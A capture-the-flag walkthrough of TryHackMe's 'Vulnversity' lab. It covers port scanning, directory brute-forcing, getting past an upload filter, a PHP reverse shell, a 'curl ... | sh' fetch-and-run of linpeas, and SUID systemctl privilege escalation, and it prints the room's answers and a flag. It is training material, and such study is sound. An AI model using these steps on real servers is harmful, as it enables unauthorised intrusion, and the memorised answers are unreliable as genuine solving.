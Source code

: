 Vulnversity
=================

> Armand Alvarez | 17 July 2021

------------------------

Task 1: Deploy the machine

Task 2: Reconnaissance

### Nmap scan

First lets perform an nmap scan!

![nmap scan](./screenshots/nmap.png)

**21** - ftp - vsftpd 3.0.3
**22** - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
**139** - netbios-ssn Samba smbd 3.x - 4.x
**445** - ' ' smbd 4.3.11-Ubuntu
**3128** - http-proxy - Squid http proxy 3.5.12
**3333** - http - Apache httpd 2.4.18

## Questions

* Scan the box, how many ports are open?
`6`

* What version of the squid proxy is running on the machine?
`3.5.12`

* How many ports will nmap scan if the flag -p-400 was used?
`400`
    * This does a port scan of ports 1 - 400

* Using the nmap flag -n what will it not resolve?
`DNS`

* What is the most likely operating system this machine is running?
`Ubuntu`
    * Found on smb-os-discovery

* What port is the web server running on?
`3333`
    * _The port with http service_


------------------

Task 3: Locating directories using GoBuster


So, since we know that there is an http service on port 3333, we can try to _bust_ or _brute force_ the names of the directories using a really cool tool called GoBuster.

![gobuster scan](./screenshots/gobuster.png)

### Command Breakdown

Lets break down our command real quick and what we are looking at:

`gobuster dir -u http://10.10.99.117:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster.txt`

* `gobuster dir` -- Directs gobuster to work in directory enumeration mode
* `-u http://10.10.99.117:3333` -- Tells gobuster to scan our box (that is the IP of the box we are trying to get into for me, it may be different when you do this CTF.) The `:3333` tells gobuster to use port 3333 (by default it uses port 80)
* `-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` -- Specifies the wordlist to use when enumerating through possible directories. This is a pretty good wordlist to use that comes installed stock in Kali linux. 

### Output Breakdown

We see that our ip address has the directories:
* /images
* /css
* /js
* /fonts
* /internal

The /internal directory looks interesting....

## Questions

* What is the directory that has an upload form page?
`/internal/`

----------------

Task 4: Compromise the webserver

Lets see what internal page looks like...

![internal webpage](./screenshots/internal.png)

We can upload a file and submit it. But it looks like this does **NOT** work with .pl files. Instead of manually trying a bunch of different file types, we can use BurpSuite to do this automatically.

Turn on your Burp proxy and send the .pl file so that it gets rejected.

Then send that POST request to the intruder.

Under the Intruder->Positions tab, select the file extention. We do this because all we are enumerating is which file extention is allowed, we don't actually care about the contents of the file at this point in time.

Under the Intruder->Payload Options, put a list of common extention types like .php, .php5, .phtml, etc.

** Make sure you un-check "URL-encode these characters", otherwise it won't work.

Looking at the results, the `.phtml` extention works!

### Now lets upload a reverse php shell 

First, download the reverse shell provided

Secondly, open a netcat connection to port 1234

`nc -lvnp 1234`

After making the changes that the TryHackMe page recommends, you can upload the shell to the page. Navigate to /uploads to see your file, then click it to form the connection!

![nc init connection](./screenshots/nc.png)


### Exploring

We can explore the webserver a little bit for some more information.

Typing `whoami` will show that we are logged in as _www-data_

Looking in the `home` directory will show only one user: Bill. He probably owns this webserver...

He only has one file in his directory. Probably the flag...

## Questions

* Try upload a few file types to the server, what common extension seems to be blocked?
`.php.`

* Run this attack, what extension is allowed?
`.phtml`

* What is the name of the user who manages the webserver?
`bill`

* What is the user flag?
`8bd7992fbe8a6ad22a63361004cfcedb`

----------------------

Task 5: Privilege Escalation

### linpeas

I solved this a little differently from the THM page.

First, I downloaded the linpeas.sh file from their website (you can google linpeas to find the github page, just click on the linpeas.sh file and download the raw file as linpeas.sh)

Second, on another terminal tab, type `python -m SimpleHTTPServer 80`
This starts an HTTP server on your IP

Then, back in your webserver netcat connection, type `curl http://<your ip>/linpeas.sh | sh`
This will download the linpeas file from the directory you started the HTTP server from and run it on the box. 


The results tell us a lot of options we can use for privilege escalation, but one of them sticks out.

![linpeas results](./screenshots/linpeas.png)

By having systemctl under SUID, we can use that to escalate privileges because we can run it as root despite not having root access. 

### Privilege Escalation

Lets follow the process [here](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49) to take advantage of the misconfigured systemctl.

Once you create and upload your root.service file, execute it to become root!

You should be able to find the last flag ;)
